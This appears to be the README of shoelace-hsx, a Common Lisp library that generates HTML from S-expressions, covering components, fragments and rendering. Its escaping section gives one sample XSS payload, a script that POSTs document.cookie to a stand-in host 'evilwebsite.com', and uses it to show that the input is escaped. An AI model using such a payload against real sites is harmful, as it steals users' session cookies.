 # HSX – Hypertext S-expression

**HSX** is a simple and powerful HTML generation library for Common Lisp, inspired by JSX. It allows you to write HTML using native Lisp syntax.

[Practical usage example](https://github.com/skyizwhite/website)

> 🚧 **BETA NOTICE:**  
> This library is still in early development. APIs may change.  
> See [release notes](https://github.com/skyizwhite/shoelace-hsx/releases) for details.

## ⚙️ How HSX Works

Every tag or component inside an `(shoelace-hsx ...)` form is transformed into a Lisp expression of the form:

```lisp
(create-element type props children)
```

For example:

```lisp
(shoelace-hsx
  (article :class "container"
    (h1 "Title")
    (p "Paragraph")
    (~share-button :service :x))
```
Is internally transformed (by macro expansion) into:

```lisp
(create-element :article
                (list :class "container")
                (list (create-element :h1
                                      (list)
                                      (list "Title"))
                      (create-element :p
                                      (list)
                                      (list "Paragraph"))
                      (create-element #'~share-button
                                      (list :service :x)
                                      (list))))
```

## 🚀 Quick Example

```lisp
(shoelace-hsx
  (div :id "main" :class "container"
    (h1 "Hello, HSX!")
    (p "This is a simple paragraph.")))
```

Generates:

```html
<div id="main" class="container">
  <h1>Hello, HSX!</h1>
  <p>This is a simple paragraph.</p>
</div>
```

## 📝 Rendering

Use `render-to-string` to convert an HSX structure to a string of HTML:

```lisp
(render-to-string
  (shoelace-hsx ...))
``` 

## 🔐 Escaping text

All elements automatically escape special characters in content to prevent XSS and HTML injection:

```lisp
(shoelace-hsx
  (div "<script>fetch('evilwebsite.com', { method: 'POST', body: document.cookie })</script>"))
```
Outputs:

```html
<div>&lt;script&gt;fetch(&#x27;evilwebsite.com&#x27;, { method: &#x27;POST&#x27;, body: document.cookie })&lt;&#x2F;script&gt;</div>
```

Use the special tag `raw!` to inject trusted, unescaped HTML:

```lisp
(shoelace-hsx
  (article (raw! "HTML text here ..."))
```

## 🧩 Fragments

Use `<>` tag to group multiple sibling elements without wrapping them in a container tag:

```lisp
(shoelace-hsx
  (<>
    (p "One")
    (p "Two")))
```

Outputs:

```html
<p>One</p>
<p>Two</p>
```

Note: `raw!` tag is a fragment that disables HTML escaping for its children.

## 🧱 Components

Define reusable components using `defcomp` macro. Component names must start with `~`.

*Keyword-style*

```lisp
(defcomp ~card (&key title children)
  (shoelace-hsx
    (div :class "card"
      (h2 title)
      children)))
```

*Property-list style*

```lisp
(defcomp ~card (&rest props)
  (shoelace-hsx
    (div :class "card"
      (h2 (getf props :title))
      (getf props :children))))
```

### Usage

```lisp
(shoelace-hsx
  (~card :title "Hello"
    (p "This is a card.")))
```

Outputs:

```html
<div class="card">
  <h2>Hello</h2>
  <p>This is a card.</p>
</div>
```

## 🧬 Logic and Interpolation

You can freely embed Lisp expressions, conditionals, and loops inside HSX forms:

```lisp
(shoelace-hsx
  (div
    (if (> (random 10) 5)
        (shoelace-hsx (p "High!"))
        (shoelace-hsx (p "Low!")))))
```

Or loop:

```lisp
(shoelace-hsx
  (ul
    (loop :for item :in todo-list :collect
      (shoelace-hsx (li item))))))
```

## Utils

- `(clsx &rest strs)`: A utility function for constructing class strings conditionally. It removes `nil` from the string list, then joins the remaining strings with spaces.

## 📄 License

MIT License

© 2024 Akira Tempaku

© 2018 Bo Yao (original [flute](https://github.com/ailisp/flute) project)
 
